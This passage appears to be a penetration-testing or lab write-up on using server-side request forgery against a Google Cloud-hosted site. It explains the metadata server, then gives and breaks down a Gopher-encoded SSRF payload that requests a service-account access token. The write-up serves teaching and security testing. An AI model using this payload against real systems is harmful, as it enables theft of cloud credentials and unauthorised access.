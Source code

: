 ```
Comment:        
Comment:        Direct all spam and abuse complaints to 
Comment:        https://support.google.com/code/go/gce_abuse_report
Comment:        
Comment:        For fastest response, use the relevant forms above.
Comment:        
Comment:        Complaints can also be sent to the GC Abuse desk 
Comment:        (google-cloud-compliance@google.com) 
Comment:        but may have longer turnaround times.
Ref:            https://rdap.arin.net/registry/ip/35.208.0.0
<SNIP>
```

Websites are usually hosted on Google Cloud is to use a VM instance. Every Google Cloud virtual machine (VM) has its [metadata](https://cloud.google.com/compute/docs/metadata/overview) stored on a dedicated metadata server. The metadata can contain sensitive information such as credentials and this API is accessible to VMs without requiring authorization.

According to the [documentation](https://cloud.google.com/appengine/docs/legacy/standard/java/accessing-instance-metadata), this is a metadata endpoint that allows for retrieving the GCP project ID (the unit of separation in Google Cloud is a project):
```
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

We can try fetching it, but we receive an error. According to the [documentation](https://cloud.google.com/compute/docs/metadata/overview), there's a specific header `Metadata-Flavor: Google` that must be sent to access this URL

![](exploit-ssrf-with-gopher-for-gcp-initial-access-7.png)

We can can also try interacting with an API that doesn't require the header
```
http://metadata.google.internal/computeMetadata/v1beta1/
```

But it also fails, since it's deprecated

![](exploit-ssrf-with-gopher-for-gcp-initial-access-8.png)

After some googling, there's a [blog](https://blog.codydmartin.com/gcp-cloud-function-abuse/), that contains the following SSRF payload that encapsulates an HTTP request within a Gopher URL.
```
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/<snip>-compute@developer.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```
Breakdown:
- Gopher is a TCP/IP application layer protocol designed for distributing, searching, and retrieving documents over the Internet.
- Protocol and Target: `gopher://metadata.google.internal:80/` - Part of the payload specifies that the Gopher protocol is being used to make a request to `metadata.google.internal` on port 80, a special domain used internally by Google Cloud services to provide metadata information to VM instances.
- Crafted Request:
    - `GET /computeMetadata/v1/instance/service-accounts/<service-account>/token` - GET request to the Google Cloud metadata service API, requesting an access token associated with a service account. Requires service account is associated with the VM.
    - `%2520HTTP%252f%2531%252e%2531` - Encoded form of " HTTP/1.1"
    - `%250AHost:%2520metadata.google.internal` -Encoded header specifying the host.
    - `%250AAccept:%2520%252a%252f%252a` - Encoded header for the `Accept` field, indicating that any media type is acceptable in response.
    - `%250aMetadata-Flavor:%2520Google` - Sets the header that is required to access the metadata service.
